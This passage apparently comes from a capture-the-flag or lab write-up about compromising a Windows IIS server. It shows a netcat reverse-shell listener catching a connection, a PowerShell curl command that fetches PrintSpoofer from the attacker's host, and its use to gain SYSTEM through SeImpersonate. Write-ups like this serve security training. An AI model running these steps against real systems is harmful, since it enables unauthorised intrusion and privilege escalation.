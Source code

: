 ![Web shell](img/fire_2.png)

We then created a reverse shell using the same netcat pre-built binary: 

```bash
$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.95.158] 49683
Microsoft Windows [Version 10.0.17763.1999]
(c) 2018 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv> 
```

Finally, we decided to use the [Print Spoofer technique](https://github.com/itm4n/PrintSpoofer) in order to obtain and reuse a system user token to escalate our privileges by using `SeImpersonate`:

```bash
c:\windows\system32\inetsrv> cd C:\Windows\Temp

c:\windows\system32\inetsrv> powershell curl http://10.10.14.65:8080/printspoof.exe -o pspoof.exe
                             
C:\Windows\Temp>pspoof.exe -i -c powershell.exe
pspoof.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
```